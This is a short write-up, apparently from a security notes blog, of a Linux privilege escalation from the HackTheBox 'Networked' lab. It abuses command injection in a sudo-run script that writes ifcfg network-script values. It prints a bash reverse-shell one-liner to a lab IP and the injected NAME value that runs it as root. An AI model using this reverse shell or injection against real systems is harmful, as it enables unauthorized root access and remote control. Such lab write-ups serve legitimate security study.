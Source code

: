 ```yaml
---
layout: post
title: Network Scripts Command Injection
description: Network Scripts Command Injection
summary: Network Scripts Command Injection
tags: [linux,privesc,networking]
minute: 1
---
```

## Overview
Attacker can do privesc if user has sudo permissions to create or modify `ifcfg-<DEVICE_NAME>` under `/etc/sysconfig/network-scripts`

## Environment Setup and Requirements
* Sudo permissions

```
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

* Script content

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

## Steps
* Create your malicuous script

```bash
echo 'bash -i >& /dev/tcp/10.10.14.51/4444 0>&1' > /home/guly/evil
```

* Open netcat listener on attacker machine
* Run script using sudo and enjoy

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
guly0 /home/guly/evil
[...redacted...]
```

## References
* [Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#etc-sysconfig-network-scripts-centos-redhat)
* [HackTheBox - Networked](https://www.youtube.com/watch?v=H3t3G70bakM)
